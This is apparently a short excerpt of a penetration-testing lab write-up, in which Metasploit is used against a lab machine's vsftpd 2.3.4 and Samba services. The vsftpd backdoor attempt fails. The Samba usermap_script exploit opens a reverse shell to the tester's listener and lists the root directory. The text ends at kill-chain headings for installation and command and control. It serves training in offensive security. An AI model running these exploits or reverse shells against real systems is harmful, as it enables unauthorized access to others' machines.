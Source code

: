 ```BASH
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit

[*] 10.129.219.182:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.219.182:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

It's not working.

For the gift :

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit

[*] Started reverse TCP handler on 10.10.14.112:4444 
[*] Command shell session 1 opened (10.10.14.112:4444 -> 10.129.219.182:52638) at 2025-02-07 13:54:10 -0600

ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

It's working.
## 5. **Installation

## 6. **Command and Control
